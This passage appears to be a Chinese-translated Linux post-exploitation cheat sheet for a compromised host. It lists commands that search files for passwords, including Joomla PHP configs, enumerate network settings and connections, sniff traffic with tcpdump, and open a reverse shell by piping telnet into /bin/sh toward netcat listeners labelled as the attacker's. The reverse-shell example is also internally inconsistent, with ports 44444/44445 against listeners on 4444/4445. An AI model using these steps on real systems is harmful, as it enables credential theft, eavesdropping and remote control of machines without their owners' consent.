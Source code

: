 grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
`find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"`   # Joomla

通信与网络

NIC(s)，系统有哪些？它是连接到哪一个网络？

/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network

网络配置设置是什么？网络中有什么样的服务器？DHCP服务器？DNS服务器？网关？

cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname

其他用户主机与系统的通信？

lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w

缓存？IP和/或MAC地址?

arp -e
route
/sbin/route -nee

数据包可能嗅探吗？可以看出什么？监听流量

# tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21

你如何get一个shell？你如何与系统进行交互？

# http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
nc -lvp 4444    # Attacker. 输入 (命令)
nc -lvp 4445    # Attacker. 输出(结果)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # 在目标系统上. 使用 攻击者的IP!
